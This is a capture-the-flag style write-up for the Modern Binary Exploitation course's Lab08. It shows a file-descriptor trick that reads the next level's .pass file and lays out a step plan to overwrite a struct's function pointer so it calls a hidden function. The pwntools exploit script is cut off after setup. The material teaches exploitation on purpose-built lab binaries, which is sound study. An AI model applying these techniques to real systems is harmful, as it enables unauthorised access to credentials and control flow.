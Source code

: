```yaml
---
title: "m0d3rn b1n4ry expl0it4ti0n Lab08 Misc write-up"
author: A1phaZer0
layout: post
category: Write-ups
---
```

>**Lab8C**

STD_IN = 0  
STD_OUT = 1  
STD_ERR = 2  
New file descriptor starts from 3.  
```bash
./lab8C -fn=/home/lab8B/.pass -fd=3
```



>**Lab8B**

After padding, we got:
```cpp
struct vector {
	void (*printFunc)(struct vector *);
    char a;
    char pad[1];
    short b;
    unsigned short c;
    char pad[2];
    int d;
    unsigned int e;
    long f;
    unsigned long g;
    long long h;
    unsigned long long i;
};
```

`void fave()` malloc a struct vector and copy `sizeof(struct vector)` (i.e. 44 bytes) from `&vector + i` to faves[i]. That is saying `*(&vector + i)` holds the `printFunc`.  
Our process will be:
1. enterData() v1.  
2. printVector() v1. Get address of printVector.  
3. Calculate address of thisIsASecrect.  
4. enterData() v1 enterData() v2 save sum to faves[i], repeat 5 times. At 4th time, make sure v1.e + v2.e == thisIsASecrect.  
5. loadFave() to v1, then printVector() v1.  

**_exploit.py_**

```python
#!/usr/bin/env python2

from pwn import *

#
# setup context
#
#context.log_level = 'debug'

#
# start process
#
p = process('/levels/lab08/lab8B')

#
```